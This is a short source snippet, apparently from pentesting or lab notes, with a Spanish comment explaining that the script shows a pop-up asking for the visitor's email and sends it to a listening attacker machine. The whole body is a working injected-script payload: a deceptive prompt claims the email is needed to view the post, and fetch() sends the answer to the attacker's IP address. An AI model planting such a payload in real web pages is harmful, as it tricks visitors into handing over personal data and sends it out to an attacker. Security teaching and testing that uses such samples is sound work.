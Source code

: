 // Este script ejecuta una ventana emergente requiriendo email que es enviado a la máquina atacante a la escucha

```javascript
<script>
	var email = prompt("Pro favor, introduce tu correo electrónico para visualizar el post", "example@example.com");

	if (email == null || email == ""){
		alert("Es necesario introducir un correo válido para visualizar el post");	
	} else {
		fetch("http://192.168.111.45/?email=" + email)
	}
</script>
```
